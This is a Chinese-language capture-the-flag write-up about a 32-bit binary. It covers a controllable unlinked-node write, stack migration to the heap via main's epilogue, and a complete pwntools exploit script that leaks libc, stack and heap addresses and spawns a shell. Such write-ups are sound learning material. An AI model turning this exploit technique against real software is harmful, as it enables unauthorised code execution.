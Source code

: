 ```yaml
---
title: 'x86_stack_migration:Hack'
date: 2018-11-16 19:25:08
tags:
layout: post
---
```

基础太差...
tcl
<!---more-->

# Hack
不知道啥比赛的题...上课上完有个朋友给我发了题...初看挺简单...后来看了群里师傅的思路才做出来..
曲线救国曲线救国。。。
[附件][1]
# Analysis

X86的程序题目意图很明显考察利用思路...
```arm
➜  Desktop checksec hack
[*] '/home/n132/Desktop/hack'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
直接允许泄露栈地址，堆地址，libc基址
最后的部分考察利用
```arm
  P1 = fake_node->pre;
  P2 = fake_node->next;
  P1->next = P2;
  P2->pre = P1;
```
其中fake_node完全可控

# 思路
* 可以设置p1,p2然后程序就会往p1+8写p2和p2+12写p1
* 那么问题来了假设我们要控制执行流那么我们一定要有个能执行的address
* 因为可执行不可写那么显然那个address是填写在我们之前控制的堆上..
* 所以我们最后设置p1,p2的目的是让程序运行到堆上去...
* 今天的新发现...32位程序main在ret前是.（自己随便编了一个发现也是...之前都没注意到，tcltcl）
```arm
 8048702:	c9                   	leave  
 8048703:	8d 61 fc             	lea    -0x4(%ecx),%esp
 8048706:	c3                   	ret   
```
* 然后我们就可以将stack migrate到heap上跳gadget...

# 真是TCLTCL
EXP
```python
from pwn import *
#context.log_level = 'debug'
p = process("./hack")
elf = ELF("./hack")
libc = ELF("/lib/i386-linux-gnu/libc.so.6")


p.recvuntil("input address: \n")
p.sendline("134520860")
p.recvuntil("0x")
addr = int(p.recvuntil("\n",drop=True),16)
print hex(addr)


libc_base = addr - libc.symbols['puts']

environ_addr = libc_base+libc.symbols['_environ']

p.recvuntil("Second chance: \n")
p.sendline(str(environ_addr))
p.recvuntil("0x")
stack_addr = int(p.recvuntil("\n",drop=True),16)-(0xffffdef0-4-0xfffdd000)


ret_addr = stack_addr+0xffffd05c-0x804b000
p.recvuntil("node is ")
heap=int(p.readuntil(",")[:-1],16)-0x20
log.info(hex(libc_base))
log.info(hex(stack_addr))
log.info(hex(heap))
#gdb.attach(p,'b *0x8048706')
libc.address=libc_base
payload  = p32(0x3ac69+libc_base)+p32(0)+p32(0xffffd054-12+stack_addr-0xfffdc220)+p32(heap+0x24)
p.sendafter("now: ",payload)
p.interactive("nier>>>>")
```



[1]:https://github.com/n132/Watermalon/tree/master/UNKNOW/hack